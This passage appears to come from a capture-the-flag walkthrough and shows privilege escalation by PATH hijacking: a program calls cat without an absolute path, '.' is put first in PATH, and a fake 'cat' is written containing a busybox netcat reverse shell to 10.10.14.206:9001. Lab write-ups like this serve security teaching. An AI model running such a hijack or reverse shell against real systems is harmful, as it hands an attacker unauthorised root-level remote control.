 Looking at the CPU Info section we can see that its running cat without absolute path:

```shell
# With absolute path
/bin/cat /proc/cpuinfo

# Without absolute path
cat /proc/cpuinfo
```

We can abuse this putting a reverse shell on the path of the cat binary.

Lets check the PATH variable:

```shell
echo $PATH

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

```

Here we can see that the first path that the system will search is /usr/bin/local. If the executable is not there, it will search in the next directory.

Here is the order of search on the system from 1 (most priority) to 4 (least priority), this means the system starts searching at 1. directories and goes on, until it reaches the 4. directories:

```shell
1. /usr/local/sbin and /usr/local/bin
2. /usr/sbin and /usr/bin
3. /sbin and /bin
4. /usr/games and /usr/local/games
```

### Changing PATH variable and creating malicious cat binary containing a busybox reverse shell
Lets change the PATH variable so the system starts searching at our directory:

```shell
# Make theseus directory the first directory to be searched on the PATH variable
cd ~
PATH=.:${PATH}
export PATH

# Examine if we successfully changed the PATH variable
echo $PATH

# Here we can see we successfully added "." as first directory
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Lets now create a malicious cat file containing a reverse shell:

```shell
echo 'busybox nc 10.10.14.206 9001 -e bash' > cat
chmod +x cat
```
